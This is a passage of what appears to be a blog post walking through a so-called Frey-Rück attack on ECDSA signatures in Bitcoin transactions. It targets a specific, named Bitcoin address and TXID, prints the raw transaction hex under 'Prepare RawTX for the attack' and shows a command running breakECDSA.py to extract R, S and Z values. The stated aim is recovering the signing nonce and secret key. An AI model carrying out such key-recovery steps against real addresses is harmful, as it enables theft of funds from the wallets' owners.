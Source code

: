 
<blockquote class="wp-block-quote"><p><em>The potential threat of losing BTC coins lies in the critical vulnerability of the Bitcoin blockchain transaction, so we strongly recommend that everyone always update the software and use only verified devices.</em></p></blockquote>



<hr class="wp-block-separator has-alpha-channel-opacity">



<p>With detailed cryptanalysis, we also found a critical vulnerability in&nbsp;<a href="https://btc.exan.tech/tx/81384edbf408aa501814582663386ae25819c7b14c89d69e36250059f2399128" target="_blank" rel="noreferrer noopener"><strong>81384edbf408aa501814582663386ae25819c7b14c89d69e36250059f2399128</strong></a>&nbsp;for the same Bitcoin Address<strong><code>&nbsp;TXID:</code></strong><a href="https://btc.exan.tech/tx/81384edbf408aa501814582663386ae25819c7b14c89d69e36250059f2399128" target="_blank" rel="noreferrer noopener"><strong></strong></a></p>



<hr class="wp-block-separator has-alpha-channel-opacity">



<h2>Prepare RawTX for the attack</h2>



<hr class="wp-block-separator has-alpha-channel-opacity">



<blockquote class="wp-block-quote"><p><strong><a href="https://btc.exan.tech/address/16DCNX182FdnKxsDqNt4k6AMZGb1BHDzgG" target="_blank" rel="noreferrer noopener">16DCNX182FdnKxsDqNt4k6AMZGb1BHDzgG</a></strong></p><p><a href="https://btc.exan.tech/tx/81384edbf408aa501814582663386ae25819c7b14c89d69e36250059f2399128" target="_blank" rel="noreferrer noopener">https://btc.exan.tech/tx/81384edbf408aa501814582663386ae25819c7b14c89d69e36250059f2399128</a></p></blockquote>



<figure class="wp-block-image"><img src="./Implement Frey-Rück Attack to get the secret key_K_NONCE_files/image-15-1024x97.png" alt="Implement Frey-Rück Attack to get the secret key &quot;K&quot; (NONCE)" class="wp-image-771"></figure>



<pre class="wp-block-code"><code>RawTX = 01000000011c2b74d4b3ccdd96201841bce8931efa4b40c0dcd11ce52bafe3167bc5c7f741120000006b483045022003af10d2cd5db13bacedc903c00a76d93d1e1749fff30d030bdf13ead615e644022100a66c5b518e61b1dd3b9e27068bcd5286d32690023fa69b845972e4b09800ac8a012103f3b587144f038f7fd504eaebb2159ad97c0ca33c3cbaf7f3899849a9e2c9074bffffffff010000000000000000046a02585800000000
</code></pre>



<h2>Now we need to get all R, S, Z values ​​from all vulnerable transactions</h2>



<p>Let’s use the breakECDSA.py script</p>



<pre class="wp-block-code"><code>python2 breakECDSA.py 01000000011c2b74d4b3ccdd96201841bce8931efa4b40c0dcd11ce52bafe3167bc5c7f741120000006b483045022003af10d2cd5db13bacedc903c00a76d93d1e1749fff30d030bdf13ead615e644022100a66c5b518e61b1dd3b9e27068bcd5286d32690023fa69b845972e4b09800ac8a012103f3b587144f038f7fd504eaebb2159ad97c0ca33c3cbaf7f3899849a9e2c9074bffffffff010000000000000000046a02585800000000
</code></pre>
